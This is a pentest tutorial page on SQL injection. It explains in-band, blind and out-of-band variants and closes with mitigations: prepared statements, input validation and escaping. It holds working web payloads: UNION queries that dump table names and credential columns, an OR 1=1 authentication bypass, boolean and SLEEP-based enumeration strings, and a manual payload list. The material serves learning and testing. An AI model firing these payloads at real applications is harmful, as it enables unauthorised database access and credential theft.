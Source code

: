 # SQL Injection

SQL Injection (SQLi) is a type of attack on web applications. It happens when an application uses unvalidated user input to interact with a database. This can allow attackers to access, modify, or delete sensitive data. They might also bypass authentication to access private areas. SQLi is an old but highly damaging vulnerability.



## SQLi Types/Payloads

### In-Band SQLi

In-Band SQL Injection is easy to find and exploit. It uses the same communication method to attack and get results. For example, you can discover an SQL Injection flaw on a website and extract database data to the same page.

<details>

<summary>Error-Based SQL Injection</summary>

SQL Injection exploits can reveal database details by displaying error messages directly in the browser, useful for mapping the database.

</details>

<details>

<summary>Union-Based SQL Injection</summary>

This SQL Injection technique uses the UNION operator with a SELECT statement to show more data on a web page. It's a common method to extract large amounts of data through an SQL Injection vulnerability.

{% code overflow="wrap" %}
```sql
# get error to enumerate the db
1' UNION SELECT 1; -- '

# find the number of columns needed
1' UNION SELECT 1,2; -- '
1' UNION SELECT 1,2,3; -- '

# get current db
0' UNION SELECT 1,2,database(); -- '

# get database tables
0' UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'shop'; -- '

# get columns name of a table
0' UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'; -- '

# get data from a table
0' UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users; -- '
```
{% endcode %}

</details>

### Blind SQLi

Blind SQL injection differs from In-Band SQL injection because it doesn't show results directly on the screen. In Blind SQLi, we receive little to no feedback because error messages are turned off. However, the injection still functions, and even a tiny bit of feedback can help us gather information from the entire database.

<details>

<summary>Authentication Bypass</summary>

Blind SQL Injection is often used to bypass login forms. Here, the goal isn't to retrieve data from the database but simply to gain access by bypassing authentication.

Get a scenario where we have a Login page with Username and Password. The query should be this:

```sql
select * from users where username='%username%' and password='%password%' LIMIT 1;
```

Insert the payload bellow into the Password field can allow us to ignore the password check and access without insert the correct password.

```sql
# payload in password field
' OR 1=1;-- '

# query changed into this
select * from users where username='admin' and password='' OR 1=1;
```

{% hint style="info" %}
Using `1=1` in a query with an **OR** operator **always returns true**. This tricks the web application into thinking a username/password match is found, allowing access.
{% endhint %}

</details>

<details>

<summary>Boolean Based</summary>

Boolean-based SQL Injection involves using true/false responses from injection attempts to determine success. Although it may seem limited, these responses can help reveal the entire database structure and its contents.

Using the function LIKE we can find out the letters of a Database, Table, Column and Data Row.

For example we have a API endpoint that return True/Falso if a user exists and the parameter is vulnerable to SQLi. Abusing of this parameter we can obtain all information to dump the DB.

{% code overflow="wrap" %}
```sql
# try any chars to find DB name
admin123' UNION SELECT 1,2,3 where database() like 's%';--    '

# try any chars to find tables name
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--         '

# try any chars to find columns name        
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';     '

# check for some existing user   
admin123' UNION SELECT 1,2,3 from users where username like 'a%

# check for the correct password of found users
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
```
{% endcode %}

</details>

<details>

<summary>Time-Based</summary>

Time-based blind SQL injection is similar to boolean-based injection, but there are no visual signs to check if your queries are correct. Instead, you determine success by the time taken for the query to complete. This is often done by using the **`SLEEP(x)`** function with a `UNION` statement. The `SLEEP()` function runs only when a `UNION SELECT` statement is successful.

<pre class="language-sql" data-overflow="wrap"><code class="lang-sql"><strong># try SLEEP function to test SQLi
</strong><strong>mario' UNION SELECT SLEEP(5),2,3;--    
</strong><strong>
</strong><strong># repeat the Boolean-Based SQLi enumeration process to find out db informations 
</strong>admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--

admin123' UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' and table_name like 'a%';--         '

admin123' UNION SELECT SLEEP(5),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'a%';

admin123' UNION SELECT SLEEP(5),2 from users where username like 'a%

admin123' UNION SELECT SLEEP(5),2 from users where username='admin' and password like 'a%
</code></pre>

</details>

<details>

<summary>Out-of-Band SQLi</summary>



Out-of-band SQL Injection is not very common because it relies on certain database features or specific logic in a web application that makes external network requests based on SQL query results.

This type of attack uses two communication channels: one to execute the attack and another to receive the results. For example, the attack channel might be a web request, while the data collection channel could involve monitoring HTTP or DNS requests to a server you control.

Here's how it works:

1. An attacker sends a request with a malicious SQL payload to a vulnerable website.
2. The website processes the SQL query, including the attacker's payload, with the database.
3. The payload triggers the server to send an HTTP request back to the attacker containing sensitive data from the database.

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

</details>



## Testing for SQLi

Testers should find app features where users can enter data, which may impact the database. For each feature found, testers must test for vulnerabilities by using harmful strings and values.

### Vulnerable input recon

Using special characters in SQL inputs like `'`, `"`, `#`, `;`, `)`, `*`, and `%` can cause SQL errors, sometimes visible to users. This can show that the inputs aren't properly sanitized, making them vulnerable to SQL injection.

For every payload do not forget to try url encoding or others.

### Manual Test

Try this payloads below for each input in the web app. Tools like Burp can help us to do this.

{% code title="Request" %}
```javascript
/page?id=PAYLOAD
```
{% endcode %}

{% code title="Manual Payloads" %}
```
id=1
id=1'
id=1"
id=[1]
id[]=1
id=1`
id=1\
id=1/**/
id=1/*!111'*/
id=1' or '1'='1
id=1 or 1=1
id=' or ''='
id=' OR 1 -- -
id=1' or 1=1 --
id=1' or 1=1 -- -
id=1' or 1=1 /*
id='='
```
{% endcode %}



### Automatic Tools

{% content-ref url="../../../../../tools/web-tools/sqlmap.md" %}
[sqlmap.md](../../../../../tools/web-tools/sqlmap.md)
{% endcontent-ref %}



## Mitigations

SQL Injection (SQLi) vulnerabilities can severely compromise the integrity, confidentiality, and availability of a web application and its data. To prevent SQLi, developers should adopt the following secure coding practices:

#### 1. Use Prepared Statements

Prepared statements ensure that SQL code and user input are separated, preventing attackers from injecting malicious SQL. This is the most effective and recommended mitigation technique.

<details>

<summary>Python mitigation code</summary>

```python
import sqlite3

conn = sqlite3.connect('example.db')
cursor = conn.cursor()

# Unsafe: vulnerable to SQLi
# cursor.execute("SELECT * FROM users WHERE username = '%s'" % user_input)

# Safe: parameterized query
cursor.execute("SELECT * FROM users WHERE username = ?", (user_input,))
```

</details>

<details>

<summary>PHP with PDO mitigation code</summary>

```php
$pdo = new PDO('mysql:host=localhost;dbname=testdb', 'user', 'pass');

// Unsafe
// $stmt = $pdo->query("SELECT * FROM users WHERE email = '$email'");

// Safe
$stmt = $pdo->prepare("SELECT * FROM users WHERE email = :email");
$stmt->execute(['email' => $email]);
```

</details>

#### 2. Validate Input

Input validation ensures user-supplied data adheres to expected formats and values before it’s processed. It should complement (not replace) prepared statements.

**Best Practices:**

* Use allow lists (e.g., for usernames, only allow alphanumeric characters).
* Reject or sanitize unexpected input types (e.g., strings where numbers are expected).
* Normalize and trim input to prevent bypasses.

<details>

<summary>Regex in Python</summary>

```python
import re

def is_valid_username(username):
    return re.match(r'^[a-zA-Z0-9_]{3,30}$', username) is not None
```

</details>

#### 3. Escape User Input

Allowing characters like `'`, `"`, `$`, and `\` can cause SQL queries to break or open them to attacks. Escaping user input involves adding a backslash (`\\`) before these characters, treating them as regular strings rather than special characters.

<details>

<summary>PHP with <code>mysqli_real_escape_string</code> mitigation code</summary>

```php
$conn = new mysqli('localhost', 'user', 'pass', 'testdb');
$user_input = $conn->real_escape_string($_GET['username']);
$query = "SELECT * FROM users WHERE username = '$user_input'";
```

</details>

